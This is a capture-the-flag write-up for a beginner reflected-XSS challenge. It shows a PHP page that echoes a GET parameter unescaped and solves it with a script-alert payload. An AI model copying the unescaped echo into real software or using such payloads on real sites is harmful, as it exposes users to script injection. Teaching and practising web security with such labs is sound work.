



# Baby XSS 01

> A Reflected XSS Challenge

For this question, we are given the source code as below:

## ***src***

```php
<script src="hook.js"></script>
<?php
echo $_GET["payload"];
?>

<h1>inject</h1>
<form>
    <input type="text" name="payload" placeholder="your payload here">
    <input type="submit" value="GO">
</form>

<h1>src</h1>
<?php highlight_string(file_get_contents(basename(__FILE__))); ?>
```

## Solution

To solve this question, we need to inject our payload in the input box given. Based on the source code, we can see that the payload will be echo to the page by:

```php
<?php
echo $_GET["payload"];
?>
```

To test what the output will look like, I tried to inject using "test", and as what we had expected:

**HTML Output**



**Source Code Output**

```php
<script src="hook.js"></script>
test
<h1>inject</h1>
...
```

As for solving this question, the payload that will be used to inject:
```html
<script>alert('XSS')</script>
```

## Output

**Output of the XSS injection**



**Final Output**

